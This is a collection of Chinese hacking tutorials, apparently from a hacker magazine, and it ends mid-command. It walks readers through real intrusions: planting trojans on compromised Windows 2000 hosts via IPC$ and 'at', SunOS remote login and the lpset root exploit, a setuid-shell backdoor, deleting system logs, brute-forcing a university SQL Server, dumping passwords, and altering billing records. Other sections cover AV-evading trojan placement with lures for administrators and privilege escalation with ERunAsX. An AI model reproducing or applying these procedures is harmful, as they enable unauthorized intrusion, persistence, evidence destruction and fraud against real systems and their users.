- 蓝色火焰：能在肉鸡上开放 FTP 服务的木马；
- Telnet.zip：远程开启 Telnet 服务，能去掉 NTLM 验证；
- Sunos_telnet_for_cygwin.zip：LION 的作品，能在 Win2000 下利用远程溢出漏洞，不需口令就可以 Telnet 登录 Sunos（5.5、5.6、5.7、5.8），为了输入方便，现改名为 Sun.zip，解压后生成 Sun.exe 和 Cygwin1.dll 两个文件；
- Lpset.c：Sunos 5.7 下利用本地溢出，取得 Root 权限的源程序。

## 入侵的过程

准备活动：寻找一个 Win2000 的肉鸡。有人问我：你不是说入侵 Unix 吗？为什么还要找出 Win2000 的肉鸡呀？告诉你，你想想你懂多少有关 Unix 知识？能在 Unix 下做网管的网络技术一定不会很差，如果你刚用自己的机子入侵，他想查一个新手入侵者，还不比手到擒来呀，老兄！所以找肉鸡是很有必要的，万一不成功的话也有退路嘛！

打开流光 4.7，点探测，选上高级扫描，在起始地址栏里填入想攻击的 IP 地址，选择目标类型为“All”，检测项目填上“IPC$”和“Telnet”。这样就可以大大加快你的扫描速度，点击确定（如果有流光的肉鸡可以在主机上填写肉鸡的 IP），点开始吧！经过一段时间的等待（想成为黑客最基本的是要有耐心），报告出来后结果会带来很大的惊喜，在“IPC$”上会有很多 Admin 为空或为 123 的主机，还有就是在“Telnet”的报告中会有版本为 Sunos5.7、Sunos5.8、Redhat7.0 等等。先找 Sunos5.7，这有很大的挑战性，比起 Redhat、Sunos 还有一定的安全性。

> 我写的只是关于 Sunos5.7 的文字，有兴趣的朋友可以试试 Sunos5.8 等，只是那个本地溢出的程序不同罢了；如果有问题可以写信给我，我可以和大家一起讨论。

在 C:\ 下建立 Hack 目录，解压缩 Telnet.zip、Sun.zip 到 C:\hack\，配置 Bluefire 服务端，选择默认开放 FTP 服务，然后将“lpset.c”复制到 C:\hack\。

把刚刚流光 4.7 扫到的“IPC$”漏洞的主机种上“Bluefire”，方法很简单，用流光的“种植者”就可以。打开流光的工具选项选 NT 工具，选上“种植者”，填上有“IPC$”漏洞的主机的 IP 地址和有 Admin 权限的用户名和密码，填上要上传的“Bluefire”的服务端“Server.exe”，然后点“种植”，等待一分钟远程启动成功，再试验一下效果，在 CMD 方式下键入：

```text
c:\cd hack
c:\hack>ftp xx.xx.xx.xx
```

上面的 xx.xx.xx.xx 是肉鸡的 IP 地址，返回 220 bluefire ftp server ready. 成功信息，然后提示输入用户名和密码，不理它，回车就是了（如果设有密码，可在 password: 后输入密码）。

返回 230 user (XXX) logged in.

成功登录了，下一步就是上传文件：

```text
ftp>put c:\hack\sun.exe
ftp>put c:\hack\cygwin1.dll
ftp>put c:\hack\lpset.c
ftp>bye
```

> 当然也可以用 IE 上传：在地址栏填上 ftp://xx.xx.xx.xx，然后就可进行复制、粘贴。只是我想让大家熟悉一下命令行上传、下载，这样对入侵 Unix 很有很大的作用；因为 Unix 下的大多操作都是在命令行方式下进行的。

下一步，我们要开启肉鸡的 Telnet 服务，如下输入：

```text
c:\hack>opentelnet \\xx.xx.xx.xx user password 0 23
```

“user”是肉鸡的用户名，“password”是密码。“0”是 NTLM 认证方式。“23”是 Telnet 端口，返回下面的信息：

```text
Connecting: \\xx.xx.xx.xx... Successfully!

Disconnecting server... Successfully!
```

这样，我们就能够得到一个开 23 端口的 Telnet 服务器。这时我们就可以 Telnet 远程登录肉鸡了。

```text
C:\>telnet xx.xx.xx.xx
```

输入刚才的用户名和密码，不过要记住“Guest”的用户是不能远程登录的。

```text
C:\>dir
```

查看肉鸡上有什么？（看到刚刚上传那两个文件了吗？）

```text
C:\>sun -h yy.yy.yy.yy
```

扫描到系统是 Sunos5.7 的主机的 IP。返回不成功，毕竟 Unix 的网管都有一定的功底，关了 bin 的远程登录，暂时又没有其它的用户名，没办法，还是换一个 IP 试试吧！

```text
C:\>sun -h zz.zz.zz.zz
```

也是 Sunos5.7 的主机。成功了，返回的是：

```text
uid=2(bin); gid=2(bin)
sunos server 5.7 Generic sun4u sparc sunw, Ultra-1
// 相当于 DOS 下的 c:\>
```

现在已经成功地侵入 Unix 了，就像远程 Telnet 进入 Win2K 一样，只不过权限很低，不能做什么手脚，但是可以看到主机内的大部分资料了。

```text
$ls
```

列目录，相当于 DOS 下的 dir。想进入目录 cd 就可以了。

```text
$who
```

查看有没有别人在这台机子上。如果有两个用户，差不多就是管理员了。哈哈，三十六计走为上，跑吧！

```text
$exit
```

有机会再来收拾它！如果只有一个用户，就是你的天下了！

```text
$gcc
```

看看有没有 gcc，一个 C 程序的编译器。返回：

```text
gcc: no input file
```

有这个就好了，可以溢出了，不过我们还是先玩玩吧！

```text
$cp /etc/passwd /tmp/
```

复制 passwd 到 tmp 目录下，一看就知道是一个密码文件，不过是被 shadow 过的，但可以得到大量的用户信息，再看看别的。

```text
$set
```

和 Windows 一样看一下主页的位置，找到可就改了它。不过不要高兴，一定改不了，你只是一般的“user”，权限有限那么一点点，如果能改主页，网管一定是白痴。那有人说了，只看看里面东西的权限，太小了吧！能不能大一点。其实，只是可以查看里面的文件就可以长很多知识了。不是有这样一句话吗，将****进行到底吗！今天我就教大家将入侵进行到底——取他的 Root（超级用户）权限。

```text
$cd /tmp
$pwd
$ftp xx.xx.xx.xx
```

# 一个人的战争


肉鸡的，这回知道前面的练习了吧！成功后输入：

```text
httpd.c httpd lpset
```

下载 lpset.c，返回成功信息。

```text
ftp> put passwd
```

上传 passwd 文件到肉鸡，如果有机会可到肉鸡 get 回来。

```text
ftp> bye
```

回到 $。

```text
gcc -o lpset lpset.c
```

编译 lpset.c 成 lpset，成功后会在 tmp 目录下生成一个 lpset 的文件，用 ls 可以查看。

```text
$ ./lpset
```

“./”就是运行 lpset 进行本地溢出取得 Root 权限，如果成功会返回成“#”符号，这就代表着你已经溢出成功，取得了 Root 权限，掌握着对服务器的生杀大权，但是不要进行破坏。如果被 K 了不关我的事！然后你可以给他留个最简单的后门。

```text
#cp /bin/ksh /tmp/.sh
#chown root.root /tmp/.sh
#chmod +s /tmp/.sh
```

好了，完成了，下次登录，只要在 $ 下输入 /tmp/.sh 就可以 # 成 Root 了。最后就是删除日志，这个简单，一个“rm -f”就可以了，但是这样做最容易被发现，不管了，干吧！

```text
#rm -f /usr/adm/wtmp /usr/adm/wtmpx /usr/adm/dtlogin /usr/adm/utmpx
#cd .. //回到 / 目录
#rm -f /.history
#exit
$exit
C:>
```

同样删除用户主目录的 .history，清完走人！

清除 Win2k 的日志我就不多说了，有许多相关文章，黑客要有钻研精神，自己慢慢领悟钻研吧！你一定会成功的。一次完整的入侵过程写完了。不过对于一个没有见过 Unix 的网友来说，也许不会完全理解，多学多用，才会成功！

我之所以能成功入侵，主要也是网管的一时疏忽，如果网管关闭了“bin”用户的远程登录，我也没有办法。如果得到他的用户名，远程登录程序 Sun.exe 还有一个参数为 -u，是可选用户名的。

```text
sun.exe -u root \u zz zz zz zz
```

这样就可以以 Root 身份登录，不过大多数主机都不会允许 Root 远程登录。还有你可以试 WWW、FTP 等用户名，也许会成功。还有，Sun.exe 对 Sun5.5、Sun5.6、Sun5.7、Sun5.8 等许多 Sun 的 Unix 都可以有效远程登录，但是 lpset.c 只在 SunOS 5.7 下有效，如有别的版本你可以到网上去找，一定会有收获的。

如果要修改主页，可以用 VI——Unix 下的一个文本编辑器，你可以找一本 Unix 系统的书学习一下。

> 这些是大家了解的 Unix 的几个命令：ls=dir，cp=copy，cd=cd，mkdir=md，more=type 等……

如果有问题可以发 E-mail：ghw44@163.com

ICQ 号码会给大家共同研究、共同进步的！

国庆节大家都休假去了，就连 QQ 上面都人烟稀少。这一天和某大学网络中心的管理人员聊天，谈到了他们学校网络中心的安全问题，他信誓旦旦地说他们中心的安全可以保证。我当时有点不服气，只好“呵呵”以对。

于是就开始了下面的入侵，纯属个人兴趣以及学习技术。为了安全和速度，我在他们学校找了一台肉鸡，是计算机系的，开了远程终端服务，说出来都吓人，对吧！关于这个细节就不多说了，所有的操作都是在这台计算机上进行的。我已经了解到这所大学的老师及学生上网需要使用帐号。于是我把目标定为学校的上网帐号数据库服务器，毕竟这是要害中的要害。

首先得找到我的目标，于是浏览一下这个学校的主页，很容易找到了 target.xxx.xxx.cn。

既然找到了，那就看看这个服务器的主页。输入地址 http://target.xxx.xxx.cn。

是用户管理系统，随便点了个“用户登录”，啊啊，浏览器地址栏中变成了 https://target.xxx.xxx.cn/userservice.php3?

注意到了没有，变成了“https”了，看来是 SSL 连接的，果然安全多了，至少不可以嗅探。每个页面都看了一下，没有得到什么有用的信息。然后我用 ping 命令探测主机：

```text
D:\>ping target.xxx.xxx.cn

Pinging target.xxx.xxx.cn [xx.xx.xx.100] with 32 bytes of data:

Reply from xx.xx.xx.100: bytes=32 time<1ms TTL=253
Reply from xx.xx.xx.100: bytes=32 time=8ms TTL=253
Reply from xx.xx.xx.100: bytes=32 time=14ms TTL=253
Reply from xx.xx.xx.100: bytes=32 time=2ms TTL=253

Ping statistics for xx.xx.xx.100:
Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
Minimum = 0ms, Maximum = 14ms, Average = 6ms
```

不错，可以 ping 通。根据 TTL 值我估计它是一台 Unix 主机。于是拿出 X-Scan 来，扫描一下这个端口，结果如下：

```text
[xx.xx.xx.100]：正在检测该端口服务……
[xx.xx.xx.100]：端口80开放：HTTP，World Wide Web
[xx.xx.xx.100]：端口443开放：HTTPS，Secure HTTP
[xx.xx.xx.100]：开放端口：扫描完成，发现2
[xx.xx.xx.100]：扫描全部完成
```

有没有搞错！就开了两个这样的端口，还以为会有个 MySQL 的 3306 端口呢！郁闷啊！看来数据库服务器不是这台，这台只是个 Web 服务器。既然不是这台，至少也在这个网段，并且估计 IP 地址很接近。于是就在这个网段扫描 3306 和 1433 端口，呵呵，SQL Server 也说不定排除。

果然，没多久就找到了一个开了 3306 端口的计算机，IP 是 xxx.xxx.xxx.96。在我意料之中，顿时精神大振。应该就是这台计算机了！

首先，当然是 ping 了：

```text
D:\>ping xxx.xxx.xxx.96

Pinging xxx.xxx.xxx.96 with 32 bytes of data:
Reply from xxx.xxx.xxx.98: bytes=32 time=24ms TTL=62
Reply from xxx.xxx.xxx.98: bytes=32 time=2ms TTL=62
Reply from xxx.xxx.xxx.98: bytes=32 time=1ms TTL=62
Reply from xxx.xxx.xxx.98: bytes=32 time=4ms TTL=62

Ping statistics for xxx.xxx.xxx.98:
Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
Minimum = 1ms, Maximum = 24ms, Average = 7ms
```

不错，应该是台 Linux。还是和上面一样扫描一下端口：

```text
[xxx.xxx.xxx.96]：正在检测“开放端口”扫描端口：
[xxx.xxx.xxx.96]：端口3306开放：[Unknown service]
[xxx.xxx.xxx.96]：“开放端口”扫描完成，发现1
[xxx.xxx.xxx.96]：扫描全部完成。
```

真是一个负责的管理员，就开了这么一个端口。

先用我的 MySQL 客户端连了一下，居然提示“host is not allowed to connect to this MySQL server”，看来服务器限制了连接的 IP 范围。难道就这样放弃吗？当然不行。既然这样直接入侵受阻，那就只能绕个弯了，看看是否可以入侵它子网中的其它计算机，然后再伺机行事，要不然连暴力破解的机会都没有。

网段的 IP 是从 xxx.xxx.xxx.10 开始到 xxx.xxx.xxx.254 结束的。于是就用 X-Scan 泛泛地扫了一遍端口。扫描后，仔细看了看。根据 X-Scan 辨别的操作系统类型，我就从中将 Windows 2000 系统的计算机的 IP 做了一个列表，导入到 X-Scan 中。现在扫描一下弱口令，也碰碰运气。呵呵，运气还真不错，一会儿就发现了一台弱口令的计算机，有个管理员帐号居然是空密码的。用 `net use \\xxx.xxx.xxx.114 \ user:"gwq"` 试了一下，命令成功完成。

接下来开一个 Telnet 服务，微软自己出的服务器用起来稳定。于是我就打开了肉鸡的“计算机管理”（右键点“我的电脑”），准备“连接到另一台计算机”（在“操作”菜单中有），去管理 xxx.xxx.xxx.114。输入 IP，连接上了，现在就可以直接启动 Telnet 服务了。

还有 NTLM 这个拦路虎怎么办呢？没问题，直接在肉鸡上添加一个用户名和密码都相同的帐号，然后再以这个帐号运行 CMD 就可以了。具体的做法：为 cmd.exe 创建一个快捷方式，右键点点，在“属性”里面勾上“以其他用户身份运行”。OK，双击，输入刚才的用户名和密码。连接上去后，我先传个 MySQL 的客户端，然后连接了一下，但是提示不行。非常的郁闷，连同一个子网的计算机都不行，连暴力破解的机会都不给我。

有点想放弃了，好端端的国庆节不过，来做这事干什么！可是想想已经花了这么多时间了，心里总觉得不甘。继续！得去找一台与数据库服务器关系密切的尝试一下。

既然它提供这个服务，那就肯定有人使用。我首先仔细分析了一下这个子网，拿出了刚才对整个子网的扫描记录，把所有开启了 Web 服务的主机的主页都浏览了一遍。当我看到 xxx.xxx.xxx.98（以下简称主机98）的时候，觉得可以试试看，因为这是这所学校开通的计费网关的服务，我们学校也有。其大概的原理就是：用户先登录到主机98，主机98 再验证用户的合法性，若通过验证，则告诉网关用户的 IP 可以出去了。这种主机应该与 xxx.xxx.xxx.96 间有联系，因为它要验证用户的身份肯定要连接数据库服务器。我想，应该这台主机离得也够近，很多没有必要的端口也都开了。

```text
[xxx.xxx.xxx.98]：端口21开放：FTP (Control)
[xxx.xxx.xxx.98]：端口80开放：HTTP (World Wide Web)
[xxx.xxx.xxx.98]：端口135开放：Location Service
[xxx.xxx.xxx.98]：端口139开放：NETBIOS Session Service
[xxx.xxx.xxx.98]：端口443开放：HTTPS，Secure-HTTP
[xxx.xxx.xxx.98]：端口445开放：Microsoft-DS
[xxx.xxx.xxx.98]：端口1433开放：Microsoft-SQL-Server
[xxx.xxx.xxx.98]：端口3389开放：Windows 2000 remote admin
```

啊啊，我先扫了一下 IIS 漏洞、FTP 弱口令、NT Server 弱口令还有 NetBIOS，除了一个 Anonymous 的 FTP 帐号外，没什么收获。重点还是放在了 1433 上面，我来一个比较大的字典，就开始了暴力破解。

一该吃午饭了，于是就出去了。吃过午饭，回来一看，当时心情真的是激动啊！已经破解出来了 sa 的密码是 1234abci，这密码虽然够长但是也够弱智了，真是皇天不负有心人啊！也别高兴太早，离最后的目标还早着呢！用肉鸡上的 SQL Server 查询分析器连接，成功。然后再输入：

```text
use master; exec xp_cmdshell 'dir c:'
```

运行，测试成功，可以用“xp_cmdshell”。然后就用 net user 改了一个从未登录过的用户的密码，并且添加到了管理员组。

下面就再简单不过了，用远程终端连接（现在可是终端下的终端了，呵呵，有点心急，也不管人家管理员在不在了）。用终端服务器管理器看了一下，发现管理员是一天前登录的，并且进程还有个 eeeee.scr（大家知道这是什么东西吧？这就是所谓的屏保进程），这可是一个好消息，管理员肯定不在，我现在可以随便玩了。还是先把管理员的密码弄到手。

FindPass 大家都用过吧，这个东西可以把已登录的用户的密码从内存里面给读出来。我就用它搞到了 Administrator 的密码——d1t2d3，这个密码后来我才知道怎么会这么怪。

我把他注销了，用 Administrator 重新登录上去，毕竟还是这个用起来心里面舒服。先看这台主机的机器配置，是台 DELL 的服务器，两个 XEON 的 CPU，内存 1G，还算可以吧！又看了看它的 SQL Server 究竟有些什么东西，说不定那些帐号就在这里面。看了一下，空空如也，什么数据都没有，看来这个服务并不是给我提供机会的。接下去看看 ODBC 数据源，这东西极有可能是个突破点。这是从前面的分析得出来的，大家看到这里的时候觉得是不是应该这样？


呵呵，看到了什么呢？哇，不得不大叫一声，以表达心中的激动，我看到一个名叫 servicechu 的 MySQL 数据源里面有……且看截图。

很清楚地可以看到，MySQL host 正是 xxx.xxx.xxx.96。注：被图我已经改过了再截的，实际 IP 当然不是这个了。

终于到了正确胜利的这一天了。用一个“星号显示为空”的软件把密码给显示了出来。用户名 qlink，密码 qlinkpass，有点弱智的密码。用 MySQL 客户端连接（我现在用的是一个图形界面的客户端），成功，数据库就在我的眼前，太激动了。查看到里面有一个 user 的表，打开一看，果然如此，什么密码、费用、名字都在里面。很不幸的是密码都是加密的。再上去看看 qlink 是什么权限，哟，可以 insert、update，不能够 create，不是很爽。不过目的已经达到了。尝试一下给一个帐号加钱，加了一大把——5 分钱，纯属试验，我不会真的去修改甚至破坏这个系统的。用的 update 语句如下：

```text
use accounting;
update user
set fee=24.55  // fee 代表帐号里面的余额，原来是 24.5
where username='qgl'  // 给一个 qgl 的用户加的，这位仁兄发财了！
```

本来还想研究一下密码的加密算法的，由于水平有限，放弃了。最后看了看主机96 究竟怎么设置的，原来每个用户都限定在特定的 IP 登录。里面还有个 dtd 的用户，不由得联想起来前面那个 d1t2d3 的密码，原来如此，看来我研究密码心理学肯定会大有收获的，很多人就喜欢把自己的名字拆来挪去当密码用。

目的达到了，不想再进一步搞下去了，我的国庆节也要休息啊！入侵到此为止，当然补场工作还是要做做的。最后给管理员发了封 E-mail，告诉了他一切。

## 利用漏洞渗透入侵 Windows 2000 三例

记得以前经常看到利用木马来入侵 Windows 2000 的文章，但就其思路而言，大抵都是通过漏洞扫描软件直接或间接获得远程系统上具有管理员权限的用户帐号，然后再通过各种方法来启动木马，从而实现对远程主机的控制。这种思路的典型过程是：

- 1. 首先，使用网络上随手可得的扫描器收集一个网段 NT 主机的信息（当然也包括 Windows 2000）。
- 2. 其次，在确定了入侵目标并搜索到目标系统的一些信息后，便可以尝试使用 Lhtmein 对目标系统进行攻击，一旦 Letmein 攻击得手，获得了远程主机上具有管理员权限的用户帐号后，便可以使用相应的 DOS 命令（`net use \\*.*.*.*\ipc$ "password" /user:"adminname"`）来连接远程主机了。
- 3. 最后，便可以将要用的木马拷贝到目标主机上，再使用 DOS 命令（`at \\*.*.*.* trojan.exe time`）启动木马即可。

上述方法虽简单易行，但要想获得具有管理员权限的用户帐号却实在不是那么的容易，更常见的情况可能是偶尔能找到一两个非管理员的用户帐号。

下面便来用 X-Scanner 扫描就近网络所得的信息，如图1所示：


很显然里面虽然有两个弱口令帐户，但并没有发现我们所要的帐号。再仔细往下看，我们却不难发现有一个口令为空的 Guest 用户帐号可用，如图2所示：


总算有一个弱口令用户可用，比一个没有的强。顺便再看一下目标系统的相关信息，进一步确定目标系统确实为 Windows 2000。接下来我们就要利用这个难得的帐号对目标系统进行渗透，具体过程如下：

首先，我们还是要和目标系统建立连接，于是点击“开始”菜单选择“运行”，在弹出的对话框里输入 CMD，回车，开启一个命令行窗口。接下来输入：

```text
net use \\*.*.*.*\ipc$ "" /user:"guest"
```

回车，其中 *.*.*.* 为目标系统的 IP 地址。命令成功完成。（此为命令成功完成的返回信息）这样我们就和目标主机建立了连接，接下来我们就要看一看目标系统有哪些资源可以利用，于是再输入：

```text
net view
```


哇……这么多呀！如图3所示：


赶快一个个打开来看看：

```text
net use * \\*.*.*.*\Games
```

不好，弹出一个出错框，如图4所示：我的电脑提示没有权限操作，这也不能怪我，谁叫我得到的仅仅是权限最低的 Guest 帐号呢！不要灰心，再试试下一个：


```text
net use * \\*.*.*.*\softwares
```

又出错？难道我的运气就这么差？再试一次：

```text
net use * \\*.*.*.*\Files
```

啊……又失败了。放弃吧？不行！不到最后一步绝不松手，一个个往下试，我就不信这么倒霉！……（此处省略了 N 次具体尝试的过程）

# 一个人的战争

```bash
net use * \\*.*.*.*\upload （回车）
```

命令成功完成。

皇天不负有心人，居然成功了！

赶紧打开“我的电脑”对应的盘符，看看里面有什么，如图5所示：

只有一些常用软件，查看一下文件的属性，时间是今天上午9：46，再一看目录名为“upload”，难道这是机器的主人专门设立用来接受别人上传软件的目录？为了证明这个猜想，右击鼠标，建立一个文件看看是不是？果真如我所想。哇噻！可以写盘！Yeah！太好了，赶紧将准备好的木马拷贝上去。


图5

> 最好到网上下载一些最近加壳的木马；这样管理员查看文件中招时才不至于被发现。

不过，如果实在找不到的话，也不是太要紧，我们可以就地配置一个木马再传上去。我选择冰河，细心的朋友可能会问：冰河这么有名，各大杀毒软件都有专门工具查杀它，为什么还用它呢？这不是自寻死路吗？

当然，如果我没有一定的把握，自然是不会选择冰河的。记得有人以前曾经写过一篇关于如何配置木马以逃避杀毒软件追杀的文章，里面详细介绍了合理配置木马的各种方法，并经本人测试，完全符合我们现在的要求（不太了解具体方法的朋友可以去查找一些介绍如何配置木马的文章）。传上去之后，最好起一个比较醒目的名字，以吸引管理员去点击。至此，能做的都做了，接下来咱们可就要静待对方中招了。

过了几天，我们就可以观看前面的付出收获成果了：打开冰河客户端，试着连接这台目标机器，怎么样，成功了吧？（没反应？不会吧？偷看一下端口设置是否正确？对了吧！你不记得我们在配置冰河时已把默认的端口改为4008了吗？）反正我是当天用冰河扫描目标机器便成功了，如图6所示：


图6

木马渗透成功后再怎么做本不在本文讨论之列，但经常有朋友会问：“我想通过木马进一步获得管理员权限那该怎么办呀？”其实这个问题也相当简单，我们可以通过冰河将本地的文件远程执行一下即可实现这个目的。具体来说，我们可以新建一个文本文件，内容如下：

```bash
net user yourname password /add （增加一个用户）
net localgroup administrators yourname /add （将刚才新增的用户加入管理员工作组）
```

将此文件保存为 addadmin.bat 后，在冰河的“文件管理器”窗口中找到该文件，右击，选择“远程执行”，如图7所示：


图7

就这样我们便在远程主机上拥有了一个属于自己的帐号。有了这个帐号之后你想干什么都只是举手之劳了，不过提醒一下，可不许干坏事哦！否则麻烦离你不远了，切记！切记！

解决上述问题我自己也没有绝对有效的方法，但经常保持高度的安全意识无疑是解决这个问题的一个不错的秘籍。具体来说，首先关于网络的合理配置，不要在对外的网络连接上绑定共享服务是个好习惯，特别是 TCP/IP 协议。再则便是防火墙的配置，有效的防火墙配置能够防范现在大部分的木马。最后就是管理员素质的提高了，安全风险意识的加强无疑对你管理的系统有很多好处。

# 利用流光4.7入侵局域网实战

谷夕

流光4.7最先进的是使用了 Sensor。在远程主机（肉鸡）上安装 Sensor 后，扫描的工作就完全依靠 Sensor 来完成。这样不仅减少了本地资源的利用，而且普通的肉鸡带宽都是非常大的，这就为我们省下不少的时间。

攻击要的是肉鸡可以当作一个代理来用，起着堡垒作用，因为被扫描的主机上留下的都是肉鸡的 IP。

假如：已经取得 A 机的 Administrator 的口令，而且知道 A 机是局域网中的一台机器。现在运行流光4.7，依次点击菜单的“工具”→“Fluxay Sensor 工具”→“安装 Fluxay Sensor”。然后填入肉鸡的（A 机）IP，系统帐号填 Administrator，系统密码填入得到的口令。其它的按提示填好。注意：服务名称不能和已有的服务名称相同。用户名随便填一个，控制密码要记好，一会儿有用。控制端口填一个没有使用的端口（如：7）。然后点击“安装”，等到下面的进度条走完，弹出“服务安装成功”，就 OK 了。

下面我们要知道 A 机内部网的 IP 段了。

如果 A 机已经打开了 Telnet 服务，我们可以 Telnet 上去执行 Ipconfig 命令，这样可以看到 A 机的两块网卡的 IP。但如果它没有打开 Telnet 服务呢？当然，我们可以打开它，但这样容易被发现。有没有快捷方便的方法呢？答案是肯定的！记得刚才那个安装时的“控制端口”吗？就是它了。刚才填的是 7，现在，我们就 Telnet 到 A 机的 7 的那个端口，提示输入密码，填入刚才的“控制密码”，回车。是否看到熟悉的画面？其实这就是一个 Telnet 服务了，而且这个终端有足够大的权限，可以添加用户……

假如：输入 Ipconfig 后得 A 机的内部网的 IP 为 192.168.0.1，

那么其它机子的 IP 也就在 192.168.0.XXX 这个网段。回到流光控制台，依次点击“探测”→“高级扫描”，选好扫描内容后点击“确定”，这时会提示先选择一个 Sensor，选择刚才安装的那个，因为 A 机内部的 IP 只有 A 机才能访问，其它 Internet 上的机器是不能访问的。再次点击“确定”后，等进度条走完，提示远端主机已经开始扫描，就可以了。大约过一段时间，估计已经扫描完成了，就可以查看 Sensor 的扫描记录了。根据我的经验，大多数内网的机器可能认为处于内网中就是安全的，于是很多机器有着大量的漏洞。

得到漏洞资料后，就可以用“端口重定向”的方法入侵内网了（利用 Fpipe.exe，Fpipe 可以用流光中的“工具”→“种植者”来传上内网并运行）。具体做法可以参阅10月份的《黑客X档案》。


Win2k 很适合菜鸟们练手，但是，要想进入一台配置合理的 Win2k，对高手们来说，也是一次挑战。以下讲的不是什么高深的东西，只是针对入侵过程中一些常见的问题进行讲解。

注意：以下讲解中，都是基于 Win2k 系统的。

## 一、IPC 直接入侵

前提条件：得到对方的一个用户密码（要有远程上传权限），对方开放 IPC$、C$、D$、admin$ 等一系列的默认共享和 Task Scheduler 服务（就是我们常用的 at 命令所支持的服务，如果这个服务没开的话，我们就没法使用 at 命令了）。

```bash
net use \\ip\ipc$ "password" /user:"username"
// 进行 ipc 连接
copy d:\server.exe \\ip\admin$\system32    // 上传木马或是后门程序
at \\ip time server.exe    // 定时启动 server 程序
（注：如果不是上传 server.exe 到对方的 system32 下的话，就需要加路径了，例如 d:\server.exe）
```

按下后就可以为所欲为了——别做坏事！

## 二、开启对方的 Telnet

前提条件：对方只开放 IPC$ 共享，启动了 Task Scheduler 服务，当然，我已经获得了对方的用户名。相信很多人都遇到过这种情况，而且这种情况也是被问得最多的，其实有以上这些东西就足够了。

```bash
net use \\ip\ipc$ "password" /user:"username"
// 还是先进行 ipc 连接
at \\ip time net start telnet    // 启动对方的 Telnet
```

也许很多人对第二步很疑惑，当初我在论坛上发表这个命令的时候也遇到过一些人的讥讽和攻击，不过很快就被平反了，因为这个命令确实是正确的，也许我不是第一个发现这个命令的人，但这确确实实是我自己发现的哦！

给大家讲一下我的发现过程，也许对大家会有启发（要使用 Win2k 系统才可以）。

首先，在命令行提示符下随便在本机上添加一个任务：at 14:23 cmd，然后再输入 at，会看到一个清单，如图1所示。


这时候大家会看到最后部分上面写的是“命令行”，当时正是这个引起了我的怀疑，因为 Win2k 下的 cmd 就是命令行嘛，所以我就试着用一些命令行下的命令来代替一些应用程序，结果居然可以。所以，at \\ip time net start telnet 这个命令当然也没问题啦！

OK！讲到这里也不用多说了，Telnet 上去后就得到了一个 shell，想干什么都可以了。

## 三、开启对方服务

前提条件：对方开了 ipc$ 共享，获得对方的管理员帐号。（仅限于在同一个局域网内，这里要使用管理员帐号。）

对方没开 Task Scheduler 服务，对很多人来说，就绝望了，即使拿到了 Admin 也无用武之地。不过别伤心，看了我的讲解之后，也许会对你有些帮助。

```bash
net use \\ip\ipc$ "password" /user:"username"
// 还是先进行 ipc 连接
```

“开始”→“运行”→“mmc”→“确定”，启动控制台，如图2所示。


“控制台（C）”→“添加/删除管理单元（M）”→“添加（D）”，在出现的对话框里选中“服务”并点“添加”，如图3所示。


然后在接下来显示的选项卡里选“另一台计算机”，如图4所示。


**注意**：然后按格式：\\ip 填上对方 IP，这里记住最好不要点“浏览”查找计算机，因为这样很容易死机的——我试过 n 次，死了一次。

完成以上步骤后，你会发现你可以随意开关对方的服务了，就像控制自己的机器一样。这时候你可以打开对方的 Telnet 或是其它的服务，这就看你的意思了。

**注意**：这个方法在很多地方都有提到过，也有很多人都说这个方法可以推广到广域网中，但是我在广域网中使用这个方法从来没成功过，大家有兴趣的话可以自己试试，如果成功的话，告诉我一声。

## 四、权限不足

很多人都有可能拿到一个权限不足的帐号，或是陷阱帐号。针对这个，我们可以利用现在很少被利用的 debug 漏洞来提升自己的权限，但是一般我们需要打开 3389 端口的 Terminal Service 服务才可以，有关这部分我已经写了另一篇利用 debug 漏洞的文章，里面有大家想要的东西。

另外，还有很多办法，像远程编辑注册表等等，但是使用背景与过程和上面的一些内容差别不大，就不再多说了。

# 轻松提升权限

### ——python DEBUG 漏洞的利用

我和很多读者交流过，在交流过程中，有一些读者问过我，怎么样才能在 Win2k 下提升自己的权限？因为现在的管理员都增强了安全意识，而且现在服务器上的陷阱帐号也逐渐增多，所以一般来说，很多人都会拿到一个权限并不是很高的帐号，因此权限不足也逐渐成为了大家入侵过程中的一块绊脚石。不过还好，我们的“盖茨先生”在前一段时间又给我们带来了一个新漏洞，就是我要讲的 DEBUG 漏洞。

大家先来简单看一下对该漏洞的描述：漏洞出现在 smss.exe 的 DEBUG 子系统中，所有普通用户都可以通过该漏洞获得对系统中任意进程或线程句柄的控制，从而可以以 SYSTEM 或管理员权限执行任意命令。到目前为止，微软公司已经接到了相关通知，还没有就这个漏洞发布任何补丁。不过藉此提升权限的程序已经有人写出来，名叫 ERunAsX。

> 1. Windows XP 不受这个漏洞的影响；
> 2. 在系统中运行 ERunAsX 会引起系统不稳定，而且对于每一个系统进程只能操作一次，第二次运行 ERunAsX 时需要在第二个参数位置指定另外一个系统进程的 PID。


本来呢，这个漏洞是要在物理上接触主机才可能被利用，但是由于微软的 Win2k Server 以上版本提供给我们的终端服务（Terminal Service），使得我们可以远程控制对方计算机，就像使用本机一样方便。

好，我们来看一下相关的工具和使用方法：

> 打开 DebPloit 压缩包后，里面有两个文件：ERunAsX.exe 和 ERunAsX.dll，原作者还随工具把源代码也公布了出来，有兴趣的朋友不妨研究一下。ERunAsX.exe 便是我们要运行的主程序。


首先简单介绍一下我第一次使用这个工具时的背景：当时扫描到一台开放 3389 端口（Terminal Service 服务）的主机，同时还得到了这台主机上的一个口令为空的用户名，呵呵，猜到了吗？那就是系统默认的 guest 帐号，总之不管了，先利用 guest 帐号来建立 IPC$ 连接，然后上传 ERunAsX.exe 和 ERunAsX.dll 这两个文件到同一个目录，如图1所示。


完成后，使用“终端服务客户端”连接到那台主机上，并使用 guest 帐号进行登录，如图2所示。


登录后，我们打开“开始→运行→cmd→确定”，便会弹出命令行窗口，然后把路径转到我们刚才上传 DebPloit 的路径下，我上传的路径是在 C:\WINNT 下，如图3所示。


图3

然后我们运行命令 ERunAsX cmd.exe，这时会弹出第二个命令行窗口，如图4所示。


图4

这个窗口大家千万不要关闭，因为这个窗口中的任何命令都将以系统最高权限运行。接下来怎么做就不用我告诉大家了吧！添加或修改用户，或是打开一些后门程序什么的，那就随便你们了，不过别做得太过火了。

> 补充：也许有时候会碰到对方主机的 3389 端口未开放，导致无法顺利提升权限，这也是一个问题。那就是如何远程开放对方的 3389 端口。

大家可以这样做，首先建立一个批处理：3389.bat（名字随意），其内容为：

```bash
echo [Components] > c:\sql.csq
